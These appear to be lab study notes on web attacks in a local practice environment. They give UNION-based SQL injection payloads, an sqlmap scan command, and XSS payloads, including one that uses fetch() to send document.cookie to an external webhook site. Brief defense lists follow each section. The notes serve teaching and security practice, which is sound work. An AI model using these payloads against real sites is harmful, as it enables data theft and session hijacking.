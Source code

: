 Browse to `http://localhost`

The first time you load the lab the database will need to be initialized, just follow the instructions in the red box by clicking the link, then coming back to the homepage.

## SQL Injection

* When an application is vulnerable to SQL injection, and the results of the query are returned within the application's responses, you can use the `UNION` keyword to retrieve data from other tables within the database. This is commonly known as a SQL injection UNION attack.
``` sql
' UNION SELECT NULL,NULL,NULL--
```
* A SQL injection UNION attack enables you to retrieve the results from an injected query. The interesting data that you want to retrieve is normally in string form. This means you need to find one or more columns in the original query results whose data type is, or is compatible with, string data.
``` sql
' UNION SELECT 'a',NULL,NULL,NULL--
```
* Try scanning for SQL Injection in cookie headers
``` bash
sqlmap -r req.txt --level=2
```
* SQLi Defenses:

  * Parameterized statements
  * Sanitizing input

> [!TIP] Cheatsheet
> [[https://portswigger.net/web-security/sql-injection/cheat-sheet]]

## Cross-Site Scripting (XSS)

* There are three main types of XSS attacks. These are:

  * [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting#reflected-cross-site-scripting), where the malicious script comes from the current HTTP request.
  * [Stored XSS](https://portswigger.net/web-security/cross-site-scripting#stored-cross-site-scripting), where the malicious script comes from the website's database.
  * [DOM-based XSS](https://portswigger.net/web-security/cross-site-scripting#dom-based-cross-site-scripting), where the vulnerability exists in client-side code rather than server-side code.

* An example of a simple payload for reflected XSS is ```<img src=1 onerror="alert(xss)">```; this can be inserted as input or as query in URL.
* You can use the `fetch()` function with a free online webhook to extract data
``` html
<img src=1 onerror="fetch('https://free-webhook.site?' + document.cookie)">
```

* XSS defenses:

  * Encoding
  * Filtering
  * Validating
  * Sanitization
  
